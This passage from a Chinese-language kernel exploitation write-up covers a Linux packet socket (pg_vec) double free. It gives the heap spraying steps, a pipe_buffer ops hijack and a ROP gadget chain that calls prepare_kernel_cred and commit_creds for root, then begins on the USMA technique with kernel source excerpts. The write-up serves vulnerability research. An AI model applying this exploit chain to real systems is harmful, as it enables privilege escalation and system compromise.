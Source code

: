 ![](https://vul.360.net/wp-content/uploads/2022/05/%E5%9B%BE%E7%89%872-3-1024x647.png)

1.  再次触发一次 double free，第一次释放 pg_vec 后，选择 pipe_buffer 进行占位。
2.  再次释放 pg_vec，使用 msg_msgseg 进行堆喷，修改 pipe_buffer 的 ops 成员指向刚刚泄露地址的 timerfd_ctx。
3.  释放 timerfd_ctx，使用 msg_msgseg 进行堆喷，伪造出一个 pipe_buf_operations。
4.  选择通过 ops 中的 release 函数指针劫持 PC，当 pipe 被 close 时，release 函数指针就会被调用。

```
/include/linux/pipe_fs_i.h 

 95 struct pipe_buf_operations {    
103     int (*confirm)(struct pipe_inode_info *, struct pipe_buffer *);        
109     void (*release)(struct pipe_inode_info *, struct pipe_buffer *);    
119     bool (*try_steal)(struct pipe_inode_info *, struct pipe_buffer *);     
124     bool (*get)(struct pipe_inode_info *, struct pipe_buffer *);   
125 };     

```

通过 release 函数指针的定义可以看到，pipe_buffer 作为函数的第二个参数且 pipe_buffer 内存内容可以被控制，那么通过以下的 gadget 来将栈迁移到 pipe_buffer 上。

```
push rsi; jmp qword ptr [rsi + 0x39];
pop rsp; pop r15; ret;
add rsp, 0xd0; ret;
pop rdi; ret; // 0
prepare_kernel_cred;
pop rcx; ret; // 0
test ecx, ecx; jne 0xd8ab5b; ret;
mov rdi, rax; jne 0x798d21; xor eax, eax; ret;
commit_creds;
mov rsp, rbp; pop rbp; ret;

```

可以看到上述的 gadgets 十分复杂，要是在不同的内核版本中编写通用的 exploit 的话，工作量会非常大。

USMA
----

USMA 这个利用方法的原理，其实来自于这个漏洞本身。如之前所说的，为了加速数据在用户态和内核态的传输，packet socket 可以创建一个共享环形缓冲区，这个环形缓冲区通过 alloc_pg_vec() 创建。

```
/net/packet/af_packet.c

4291 static struct pgv *alloc_pg_vec(struct tpacket_req *req, int order)         
4292 {         
4293     unsigned int block_nr = req->tp_block_nr;          
4294     struct pgv *pg_vec;     
4295     int i;
4296         
4297     pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);       
4301     for (i = 0; i < block_nr; i++) {     
4302         pg_vec[i].buffer = alloc_one_pg_vec_page(order);      
4305     }        
4308     return pg_vec;    
4314 } 

```
